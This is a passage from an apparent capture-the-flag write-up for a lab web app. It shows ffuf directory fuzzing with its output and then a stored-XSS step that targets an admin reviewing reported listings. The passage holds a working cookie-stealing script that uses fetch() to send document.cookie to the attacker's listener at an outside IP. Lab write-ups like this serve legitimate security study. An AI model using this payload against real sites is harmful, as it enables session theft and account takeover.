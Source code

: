 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.239.175/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.239.175/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

new                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 225ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 241ms]
login                   [Status: 200, Size: 857, Words: 200, Lines: 36, Duration: 429ms]
                        [Status: 200, Size: 1785, Words: 418, Lines: 66, Duration: 603ms]
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31, Duration: 477ms]
admin                   [Status: 403, Size: 392, Words: 75, Lines: 22, Duration: 393ms]
Login                   [Status: 200, Size: 857, Words: 200, Lines: 36, Duration: 361ms]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 336ms]
```

Let's begin exploitation.

# EXPLOITATION
---


Once we send the listing, we can check we got XSS, but we can also check this interesting stuff:

![](Pasted%20image%2020250331161239.png)

We can check that we can report listing to admins, meaning that an admin user could possibly be surveilling the website and receiving the request, maybe we can exploit the XSS to get the admin cookie:

```
<script>
  fetch('http://10.6.34.159:8000/?cookie=' + document.cookie);
</script>
```
